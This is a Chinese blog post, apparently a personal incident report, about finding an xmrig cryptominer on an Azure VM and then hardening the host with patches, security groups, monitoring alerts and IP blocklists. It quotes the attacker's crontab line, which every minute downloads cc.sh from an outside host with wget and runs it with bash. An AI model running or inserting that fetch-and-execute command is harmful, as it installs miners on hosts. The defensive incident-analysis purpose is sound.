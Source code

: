 ```yaml
---
layout: default
author: liuning0820
tags: [cloud]
comments: true
---
```


# 云安全的重要性：记录一次云主机被挖矿攻防

最近发现我的一台Azure VM 超出150美元的月度限额导致VM 直接关机。

通过Azure Monitor 上 可以看出一段时间内CPU，Network Out Total 严重异常，出口流量暴增，CPU 近100%。

![](./images/2021-02-27-10-21-05.png)

重新开机并立即关闭80，443 端口，并限定了22 端口仅限本机访问， 然后SSH上去开始尝试寻找问题原因。

1. 首先通过 **htop** 检查导致高CPU的进程,发现名为**xmrig**的进程导致100%

2. 检查crontab 查看是否有自启动的job，果然发现有，杀掉进程后并删除crontab job。

```sh
*/1 * * * * cd /tmp/node-v10.15.3-linux-x64/bin;rm -rf cc.sh;
wget http://8306.org/cc.sh;chmod 777 cc.sh;bash cc.sh /dev/null 2>&1

```

## 如果从SRE角度去主动侦测

上述的步骤是事后诸葛亮， 是被动的应对，决定尝试一下主动侦测并提前响应，以免像我一样早上上面的损失。

- 升级系统补丁

可以选择定时任务去执行下面的命令也可以在配置云主机的时候设置自动升级补丁包

```sh
sudo apt upgrade && sudo apt update
```

- 设置安全组和Inbound/Outbound 规则

- 通过监控工具主动发现异常

![](./images/2021-02-27-10-42-45.png)

从这里可以看到这个**xmrig**的进程通过13333这个端口从我的 Azure VM 跟目标机器 101.32.200.219 这台机器进行通信。

通过IP 我们可以定位出目标IP 对应的ISP 是腾讯云上的一台云主机。

![](./images/2021-02-27-10-46-59.png)

到这一步，我在想，是不是我们遇到重大损失的时候就可以报案并联系IPS运营商去协助从源头上解决问题。

当然，对于小损失，像我这样的，我们可以吃一堑长一智，至少可以把对方的IP 加到inbound/outbound blocklist里。

![](./images/2021-02-27-10-52-22.png)

- 设置Alert 主动通知和干预

因为此次攻击主要是利用云主机资源用来挖矿，对我的账单影响比较大的地方是出口流量费用。为了避免损失，我结合Azure 的Metrics 设置了
Alert。

![](./images/2021-02-27-10-55-41.png)

一旦发现一段时间内的流量异常，就通过邮件发送通知，并自动执行任务暂时关闭主机，阻止近一步的损失。

## 还有什么可以做的？

欢迎大家留言，提出保障云主机安全的见解和建议。
